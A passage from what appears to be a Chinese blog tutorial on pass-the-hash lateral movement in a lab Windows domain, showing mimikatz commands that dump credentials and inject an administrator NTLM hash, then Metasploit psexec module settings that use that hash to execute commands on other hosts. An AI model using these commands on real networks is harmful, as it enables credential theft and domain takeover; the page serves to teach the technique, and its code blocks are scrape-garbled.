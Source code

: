 Windows Server 2008（192.168.52.138）为域控制器（机器名为OWA），假设我们攻击者已经获得了Windows 7（跳板机）域成员主机的控制权，需要进一步横向渗透去拿下Windows Server 2003和域控。

首先，攻击者在Windows 7上面上传mimikatz，并用mimikatz抓取Hash：

```php
`privilege::debug``sekurlsa::logonpasswords`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/632b90f44092c48ce3d3d63a10a3a8ad.jpeg)

如上图，成功抓取到域管理员的NTLM Hash：4d6e43b2cdc951808100f5b1d09aac63

然后，在Windows 7上用mimikatz将获取的Administrator的Hash添加进lsass中：

```php
`privilege::debug``sekurlsa::pth /user:administrator /domain:workgroup /ntlm:4d6e43b2cdc951808100f5b1d09aac63`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/a2813a70b585404eb1e6f48fa852a72c.jpeg)

成功，此时会自动弹出一个新的shell，这时访问远程主机或服务，就不用提供明文密码了，如下，我们列出了域控制器OWA的c盘目录（要使用主机名，不能用IP，否则报错）：

![](https://i-blog.csdnimg.cn/blog_migrate/0fb39e129875cc6aad3c673bcada7287.jpeg)之后，攻击者便可以利用Windows7跳板机任意访问内网其他机器中的文件，进行上传、下载等操作，还可以在目标机器上运行其他命令，以获取目标机器的目录结构、用户列表等信息。

#### 使用Metasploit进行PTH

在metasploit中，经常使用的模块有：

```cobol
`auxiliary/admin/smb/psexec_command      // 在目标机器上执行系统命令              exploit/windows/smb/psexec            // 用psexec执行系统命令         exploit/windows/smb/psexec_psh         // 使用powershell作为payload`



AI写代码
```

以exploit/windows/smb/psexec模块哈希传递攻击Windows Server 2003为例（设置smbuser、smbpass、smbdomain）

![](https://i-blog.csdnimg.cn/blog_migrate/7539f01e708fd407893330a0f65cf39e.jpeg)

```cobol
`use exploit/windows/smb/psexecset rhosts 192.168.52.141set smbuser administratorset smbpass 00000000000000000000000000000000:4d6e43b2cdc951808100f5b1d09aac63  # 完整的Administrator用户的Hashset smbdomain godrun`



AI写代码
```
